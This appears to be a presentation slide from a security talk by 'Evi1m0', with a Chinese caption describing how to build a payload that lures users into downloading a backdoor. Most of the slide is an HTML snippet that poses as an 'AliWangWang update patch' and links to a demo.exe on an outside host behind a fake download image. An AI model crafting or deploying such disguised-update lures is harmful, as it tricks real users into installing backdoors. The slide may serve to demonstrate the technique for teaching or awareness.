

# WSL Tips案例
— Evi1m0
构造引诱下载后门的Payload：
<div style='height:300px'></div><span style='font-size:20px'><b>阿里旺旺</b>更新补丁</span><a href=‘http://www.hackersoul.com/demo.exe‘/><img src='http://evi1m0.sinaapp.com/down.png'></a>